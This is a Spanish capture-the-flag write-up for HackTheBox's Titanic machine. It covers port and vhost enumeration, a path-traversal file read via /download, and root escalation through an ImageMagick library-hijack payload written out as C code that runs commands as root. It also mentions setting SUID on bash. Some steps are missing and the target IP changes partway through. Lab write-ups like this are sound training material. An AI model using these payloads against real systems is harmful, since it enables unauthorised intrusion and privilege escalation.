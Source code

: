 ```yaml
---
title: "HTB: Titanic WriteUp"
author: iv4sh
date: 2025-03-03 14:00:00 +0800
categories: [HackTheBox, Easy]
tags: [RCE, LFI]
render_with_liquid: false
description: Guia para la resolución de la maquina Titanic de HackTheBox
---  
```


> El siguiente WriteUp tiene como propósito guiar la resolución de la máquina **Titanic** de HackTheBox, además de proporcionar una explicación de las vulnerabilidades encontradas.

![TitanicBanner](/assets/img/titanic/Titanic.png)

* **Máquina:** Titanic  
* **Plataforma:** Hack The Box  
* **Dificultad:** Fácil 😀  
* **Vulnerabilidades:** Local File Inclusion (LFI), ImageMagick  
* **Habilidades:** Enumeración de directorios y subdominios, interpretación de código, explotación de binarios.  

## **Fase de reconocimiento**  

* **IP atacante**: 10.10.16.76  
* **IP víctima**: 10.129.213.24  

Escaneamos los puertos abiertos bajo el protocolo TCP:  
```bash
sudo nmap -p- --open -sS --min-rate 5000 -n -vvv -Pn 10.129.213.24 -oG allPorts
```
`nmap`: Herramienta para el escaneo de puertos.  
`-p-`: Escaneará los 65535 puertos.  
`--open`: Filtra por los puertos abiertos.  
`-sS`: Modo de escaneo sigiloso y rápido, ya que no termina la conexión con el host.  
`--min-rate`: Establece un mínimo de paquetes enviados, en este caso 5000, lo que agiliza el escaneo.  
`-n`: No aplica resolución DNS.  
`-Pn`: Da por hecho que el host está activo.  
`10.129.213.24`: IP de la máquina víctima.  
`-oG`: Exporta el resultado del escaneo en formato 'grepeable' al archivo allPorts.  

Tenemos los siguientes puertos abiertos:

![allports](/assets/img/titanic/allports.png)

Podemos extraer los puertos del archivo allPorts y copiarlos al portapapeles con el siguiente comando:
```bash
grep -oP '\d{1,5}/open' allPorts | awk '{print $1}' FS="/" | xargs | tr ' ' ',' | xclip -sel clip
```

Realizamos un escaneo más amplio sobre los puertos descubiertos:
```bash
sudo nmap -p22,80 -sCV 10.129.213.24 -oN targeted
```
Usamos el parámetro `-sCV` para enviar ciertos scripts de reconocimiento a esos puertos y extraer la versión y el servicio que corre sobre cada puerto. Obtenemos la siguiente información:

![targeted](/assets/img/titanic/targeted.png)

Observamos que solo existen 2 puertos abiertos: el 22 corriendo el servicio *SSH* y el puerto 80 corriendo un servicio web *HTTP*.

---
## **Enumeración Web**  

La página que corre el servicio HTTP está usando **Virtual Hosting**, por ende debemos agregar el dominio al archivo `hosts`. Debemos modificar el archivo con permisos de superusuario.  
```bash
echo "10.10.11.28 titanic.htb" >> /etc/hosts
```

Tenemos la siguiente interfaz web:  
![web](/assets/img/titanic/web.png)

En esta web solo podemos subir información sobre un libro para después descargarla en formato *JSON*.

### Enumeración de Directorios y Subdominios  

```bash
gobuster dir -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u 10.10.11.28 -t 100 2>/dev/null
```
Enumerando directorios mediante **GoBuster**, encontramos solamente dos sitios:  
1. http://titanic.htb/download  
2. http://titanic.htb/book  

El primero es el que nos permite descargar archivos en formato JSON.  

Dado que no es mucha la información que obtenemos de estos directorios, procedemos a enumerar la existencia de algún subdominio.  
```bash
gobuster vhost --append-domain -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u http://titanic.htb/ -t 50 -k | grep -v "301"
```
| Parámetro     | Descripción                                                                      |
| ------------- | -------------------------------------------------------------------------------- |
| `gobuster`    | Herramienta para la enumeración de directorios, subdominios, etc.                |
| `dir`         | Especifica la búsqueda de directorios.                                           |
| `-w`          | Especifica la ruta del diccionario a usarse, en este caso uno del **SecLists**.  |
| `-u`          | Especifica la **URL** víctima.                                                   |
| `vhost`       | Para descubrimiento de subdominios.                                              |
| `-t`          | Uso de hilos para agilizar la búsqueda. Hacer uso de muchos puede bajar la precisión. |
| `--append-domain` | Agrega el dominio principal a cada entrada de la wordlist.                  |

La ejecución del comando es la siguiente:  

![subdominio](/assets/img/titanic/suddominio.png)

Dentro del subdominio encontramos la página de **Gitea**, que funciona como un repositorio similar a GitHub.  

![gitea](/assets/img/titanic/Gitea.png)

Dentro de esta página podemos encontrar un repositorio que contiene el código de la página original.

---
## **Fase de Explotación**  

Dentro de los archivos de la página encontramos el siguiente fragmento de código:  

![code](/assets/img/titanic/code.png)

Vemos que hace referencia al directorio mencionado anteriormente `/download`. El código busca una ruta en el sistema de la cual descargará el archivo (línea 42), pero como observamos, sin ningún tipo de verificación, por lo que la ruta será válida mientras exista.

Esto nos permite realizar un LFI (*Local File Inclusion*) en la ruta de dicho directorio. Una ruta de interés sería la base de datos de Gitea alojada en el servidor.  
Pero primero necesitamos conocer los usuarios del servidor. Facilitamos la explotación del LFI con el uso de **BurpSuite**.  

![passwd](/assets/img/titanic/passwd.png)

Al enumerar el archivo `/etc/passwd`, encontramos todos los usuarios del sistema, y al filtrarlos por aquellos que poseen una terminal interactiva *Bash*, solo nos quedan los usuarios **developer** y **root**.

Posteriormente, procedemos a enumerar la base de datos en la siguiente ruta: `/home/developer/gitea/data/gitea.db` y descargamos los resultados a nuestra máquina.  
 

---

## Root Flag  

Realizamos una enumeración completa de la máquina con el objetivo de encontrar alguna vía para escalar nuestros privilegios, ya sea buscando binarios con permisos SUID o *capabilities*. Pero en este caso, observamos algo fuera de lo común en los procesos del sistema.  

![process](/assets/img/titanic/process.png)  

La ruta `/opt/app/app.py` nos muestra la ejecución de una aplicación a intervalos regulares de tiempo.  

Dirigiéndonos a la ruta, podemos encontrar un script que filtra los archivos de una ruta por imágenes y extrae la metadata mediante la herramienta **Magick**, que se ejecuta con privilegios de **root**.  

![magick](/assets/img/titanic/magick.png)  

Este binario tiene una vulnerabilidad que puedes explorar en detalle en el siguiente enlace: [ImageMagick](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8)  

Básicamente, esta vulnerabilidad nos permite ejecutar comandos dentro del sistema con los permisos correspondientes del binario **Magick**, en este caso como **root**.  

### Explotación  

Para explotar este binario, nos dirigimos a la ruta donde se encuentran las imágenes `/opt/app/static/assets/image` y ejecutamos el siguiente comando:  

```c
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("cat /root/root.txt > /tmp/pass.txt");
    exit(0);
}
EOF
```

Este comando crea un ejecutable que nos permite ejecutar el comando que le hayamos especificado. El proceso para que funcione es: ejecutamos el script generado >> actualizamos el directorio copiando una imagen cualquiera con formato `.jpg` para que el script mencionado en un paso atrás se ejecute >> al ejecutarse ese script, nuestro comando también será ejecutado.  

![exec](/assets/img/titanic/ejecucion.png)  

Haciendo más pruebas, comprobé que se pueden asignar permisos a cualquier archivo (como con `root.txt` en la imagen anterior), por lo que podemos ganar acceso como **root** al sistema simplemente asignando permisos SUID a la *bash*.  

---

> **GG!** Se recomienda leer la documentación relacionada con la vulnerabilidad para entender por qué y cómo funciona. :)  

---
